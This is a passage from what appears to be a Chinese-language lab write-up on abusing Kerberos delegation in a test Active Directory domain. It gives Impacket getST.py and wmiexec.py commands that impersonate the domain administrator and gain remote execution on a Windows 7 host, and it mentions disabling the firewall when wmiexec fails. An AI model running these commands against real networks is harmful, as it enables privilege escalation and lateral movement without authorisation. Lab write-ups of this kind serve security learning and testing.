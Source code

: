 <img src="image/image-20231011220818453.png" alt="image-20231011220818453" style="zoom:80%;" />

模拟域管理员administrator账号申请访问win7的ST，ptt，然后wmiexec到目标主机:

```sh
getST.py -spn cifs/win71.y5neko.com -impersonate administrator -dc-ip 192.168.1.250 y5neko.com/ziyuanyueshu1$:ziyuanyueshu1@123
wmiexec.py -dc-ip 192.168.1.250 -no-pass -k administrator@win71.y5neko.com
```

<img src="image/image-20231016170144548.png" alt="image-20231016170144548" style="zoom:80%;" />

<img src="image/image-20231016172303620.png" alt="image-20231016172303620" style="zoom:80%;" />

> 我在第一次测试的时候wmiexec出现报错0x800706ba
>
> <img src="image/image-20231016172836543.png" alt="image-20231016172836543" style="zoom:80%;" />
>
> 后来查了一下发现是防火墙的报错，关闭即可
>